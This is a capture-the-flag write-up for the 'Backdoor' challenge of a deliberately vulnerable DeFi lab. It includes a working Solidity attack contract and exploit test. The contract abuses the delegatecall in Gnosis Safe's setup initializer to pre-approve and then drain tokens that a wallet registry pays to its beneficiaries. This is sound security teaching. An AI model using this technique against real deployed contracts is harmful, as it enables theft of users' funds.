 ```yaml
---
description: Make sure you take enough time to understand each contract!
---
```


# 11 - Backdoor

```javascript
// Deploy Gnosis Safe master copy and factory contracts
this.masterCopy = await (await ethers.getContractFactory('GnosisSafe', deployer)).deploy();
this.walletFactory = await (await ethers.getContractFactory('GnosisSafeProxyFactory', deployer)).deploy();
this.token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
```

We first deploy 3 contracts: **`GnosisSafe`**, **`GnosisSafeProxyFactory`**, **`DamnValuableToken`**.

```javascript
// Deploy the registry
this.walletRegistry = await (
  await ethers.getContractFactory('WalletRegistry', deployer)
).deploy(this.masterCopy.address, this.walletFactory.address, this.token.address, users);
```

Then we deploy **`WalletRegistry`** contract which is provided from this challenge.



Let's see what's the success condition.

```javascript
/** SUCCESS CONDITIONS */
for (let i = 0; i < users.length; i++) {
  let wallet = await this.walletRegistry.wallets(users[i]);

  // User must have registered a wallet
  expect(wallet).to.not.eq(ethers.constants.AddressZero, 'User did not register a wallet');

  // User is no longer registered as a beneficiary
  expect(await this.walletRegistry.beneficiaries(users[i])).to.be.false;
}

// Attacker must have taken all tokens
expect(await this.token.balanceOf(attacker.address)).to.eq(AMOUNT_TOKENS_DISTRIBUTED);
```

1\) User must have a registered wallet

2\) User should no longer be registered as a beneficiary

3\) Attacker must take all `40 DVT`s.



## Solution

We will exploit the contract in the following order:

1. Attacker contract calls `createProxyWithCallback` in **`GnosisSafeProxyFactory`**
2. `createProxyWithCallback` will call `createProxyWithNonce`&#x20;
3. `createProxyWithNonce` calls `deployProxyWithNonce`&#x20;
4. `createProxyWithNonce` sends `initializer` to newly create proxy\
   \-> here, initializer will trigger `setup` function
5. createProxyWithCallback calls callback(`proxyCreated`) \
   \-> `10 DVT`s will be transfered from **`WalletRegistry`** to each user's proxy contract

```solidity
/// @dev Setup function sets initial storage of contract.
/// @param _owners List of Safe owners.
/// @param _threshold Number of required confirmations for a Safe transaction.
/// @param to Contract address for optional delegate call.
/// @param data Data payload for optional delegate call.
/// @param fallbackHandler Handler for fallback calls to this contract
/// @param paymentToken Token that should be used for the payment (0 is ETH)
/// @param payment Value that should be paid
/// @param paymentReceiver Adddress that should receive the payment (or 0 if tx.origin)
function setup(
    address[] calldata _owners,
    uint256 _threshold,
    address to, // Our malicious contract address
    bytes calldata data, // abi.encodeWithSignature("maliciousApprove(address)"
    address fallbackHandler,
    address paymentToken,
    uint256 payment,
    address payable paymentReceiver
) external {
    // setupOwners checks if the Threshold is already set, therefore preventing that this method is called twice
    setupOwners(_owners, _threshold);
    if (fallbackHandler != address(0)) internalSetFallbackHandler(fallbackHandler);
    // As setupOwners can only be called if the contract has not been initialized we don't need a check for setupModules
    setupModules(to, data);

    if (payment > 0) {
        // To avoid running into issues with EIP-170 we reuse the handlePayment function (to avoid adjusting code of that has been verified we do not adjust the method itself)
        // baseGas = 0, gasPrice = 1 and gas = payment => amount = (payment + 0) * 1 = payment
        handlePayment(payment, 0, 1, paymentToken, paymentReceiver);
    }
    emit SafeSetup(msg.sender, _owners, _threshold, to, fallbackHandler);
}
```

This is the setup function that is triggered by `initializer` sent from `createProxyWithNonce` (at **4.**)



```solidity
function setupModules(address to, bytes memory data) internal {
    require(modules[SENTINEL_MODULES] == address(0), "GS100");
    modules[SENTINEL_MODULES] = SENTINEL_MODULES;
    if (to != address(0))
        // Setup has to complete successfully or transaction fails.
        require(execute(to, 0, data, Enum.Operation.DelegateCall, gasleft()), "GS000");
}
```

Here, setupModules delegatecalls to the address to.

So we will pass in our malicious contract address to `setupModules` function.



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "../DamnValuableToken.sol";
import "./WalletRegistry.sol";
import "hardhat/console.sol";

contract AttackWalletRegistry {
    // Note that these variables are declared as immutable
    // so these can be read even when this contracted is delegatecalled
    address immutable mastercopy;
    address immutable proxyFactory;
    address immutable walletRegistry;
    DamnValuableToken immutable dvt;

    constructor(
        address _mastercopy,
        address _walletFactory,
        address _walletRegistry,
        DamnValuableToken _dvt
    ) {
        mastercopy = _mastercopy;
        proxyFactory = _walletFactory;
        walletRegistry = _walletRegistry;
        dvt = _dvt;
    }
    
    // this function will be called via delegatecall from GnosisSafe.setupModule
    function maliciousApprove(address _spender) external {
        IERC20(dvt).approve(_spender, 10 ether);
    }

    function attack(address[] calldata _beneficiaries) external {
        for (uint256 i = 0; i < 4; i++) {
            console.log(i);
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = _beneficiaries[i];
            
            bytes memory initializer = abi.encodeWithSelector(
                GnosisSafe.setup.selector,
                beneficiary,
                1,
                address(this),
                abi.encodeWithSignature("maliciousApprove(address)", address(this)),
                address(0),
                address(0),
                0,
                address(0)
            );

            GnosisSafeProxy newProxy = GnosisSafeProxyFactory(proxyFactory).createProxyWithCallback(
                mastercopy,
                initializer,
                i, // can ba any value
                IProxyCreationCallback(walletRegistry)
            );
            
            // move 10 DVTs that we maliciously approved using delegatecall
            dvt.transferFrom(address(newProxy), msg.sender, 10 ether);
        }
    }
}

```

```javascript
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  const AttackWalletRegistryFactory = await ethers.getContractFactory('AttackWalletRegistry');
  const attackWalletRegistry = await AttackWalletRegistryFactory.deploy(
    this.masterCopy.address,
    this.walletFactory.address,
    this.walletRegistry.address,
    this.token.address
  );
  await attackWalletRegistry.deployed();

  await (await attackWalletRegistry.connect(attacker).attack(users)).wait();
});
```
